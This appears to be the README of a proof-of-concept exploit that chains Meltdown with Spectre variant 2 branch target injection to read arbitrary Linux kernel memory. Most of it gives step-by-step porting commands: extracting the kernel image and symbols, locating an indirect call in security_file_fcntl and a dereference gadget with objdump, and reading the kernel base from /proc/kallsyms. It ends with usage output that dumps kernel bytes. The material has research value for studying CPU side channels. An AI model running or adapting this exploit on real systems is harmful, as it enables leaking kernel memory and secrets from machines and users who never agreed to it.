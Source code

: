 # A Meltdown PoC that allows reading un-cached memory

This PoC combines Meltdown together with a Branch Target Injection (BTI, Spectre variant 2) in order to read any virtual memory address on the system (cached or un-cached).

The BTI is done into the running kernel, causing it to speculatively access any memory address that we'd like. This speculative access places the targeted data into the L1 cache. At that point it's easy to read the memory out using Meltdown, as described in the Meltdown whitepaper. 

# Limitations

1. This is for Linux only. Porting the same concept to other OSs should be trivial.
2. There is no regard here for KASLR. However, other tools exist (as part of other Meltdown PoCs) that do this.
3. You need to get a copy of the running kernel image and symbols.

# Porting

This PoC has to be ported to your running kernel.
We need to obtain the kernel image. On my Ubuntu running a mainline kernel, I did something like:

    $ dpkg -S /boot/vmlinuz-`uname -r`
    linux-image-4.12.14-041214-generic: /boot/vmlinuz-4.12.14-041214-generic

Then obtain the deb file from http://kernel.ubuntu.com/~kernel-ppa/mainline/. Extract it uisng dpkg-deb.
Alternatively, let's cheat and just get it as root from:

    $ sudo cp /boot/System.map-`uname -r` .
    $ sudo cp /boot/vmlinuz-`uname -r` .
    $ sudo chmod ugo+x vmlinuz-* System.map-*
    
Extract vmlinuz:

    $ wget -O extract-vmlinux https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux && chmod +x extract-vmlinux
    $ ./extract-vmlinux vmlinuz-* > vmlinux
    
Now find the symbol of the function that contains the indirect call we're going to attack with BTI:

    $ grep security_file_fcntl System.map-*
    ffffffff8138fcb0 T security_file_fcntl
    
Using this address, find the target callq in the function.

    $ objdump -d vmlinux | grep 'ffffffff8138fcb0:' -A 30 | grep 'callq.*\*' -A 1 | head -n2
    ffffffff8138fcf0:       ff 53 18                callq  *0x18(%rbx)
    ffffffff8138fcf3:       85 c0                   test   %eax,%eax
    
Additionally, find a gadget close by that derefs %rdx

    $ objdump -d vmlinux | grep 'ffffffff8138fcb0:' -A 20000 | grep 'mov[^,]*(%rdx' | head -n1
    ffffffff81392126:       48 8b 02                mov    (%rdx),%rax

These are the addresses needed to port the exploit. In this case, set the value CALL_ADDR_NEXT_INST to 0xffffffff8138fcf3, and GADGET_ADDR to 0xffffffff81392126. These constants are in doit.c

At last, we'll cheat (due to no KASLR bypass) to retrieve the ASLR base

    $ sudo cat /proc/kallsyms | grep _stext
    ffffffff92a00000 T _stext
    
# Usage
    ./build.sh  
    tasket 0x1 ./doit <aslr_base> <virt_addr> <len>
  
    $ taskset 0x1 ./doit 0xffffffff92a00000 0xffffffff92c47cc0 0x20
    0f 1f 44 00 00 55 48 89 e5 41 56 41 55 41 54 53
    49 89 f5 49 89 d6 48 83 ec 18 65 48 8b 04 25 28

    
